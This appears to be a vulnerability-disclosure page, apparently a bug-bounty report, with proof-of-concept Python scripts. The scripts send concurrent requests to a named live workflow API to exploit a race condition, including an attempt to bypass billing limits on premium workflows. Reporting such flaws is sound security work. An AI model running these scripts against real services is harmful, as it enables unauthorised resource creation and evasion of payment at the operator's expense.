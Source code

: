 ## **💥 PROOF OF CONCEPT**

### **Step 1: Race Condition Test**
```python
import asyncio
import aiohttp

async def race_condition_test():
    """Test race condition with simultaneous requests"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(10):
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'id': i}
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        successful = sum(1 for r in responses if r.status == 200)
        print(f"Race condition: {successful}/10 successful responses")
        return successful

# Run the test
asyncio.run(race_condition_test())
```

### **Step 2: Expected Results**
- **Normal Operation**: Should allow only 1 successful creation
- **Race Condition**: 10/10 successful responses (resource duplication)

### **Step 3: Business Logic Impact**
```python
# Potential business logic bypass
async def test_billing_bypass():
    """Test if race condition can bypass billing limits"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(5):  # Attempt to create 5 premium workflows
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'type': 'premium', 'id': i}
            )
            tasks.append(task)
        
        responses = await asyncio.gather(*tasks)
        successful = sum(1 for r in responses if r.status == 200)
        print(f"Billing bypass: {successful}/5 premium workflows created")
```
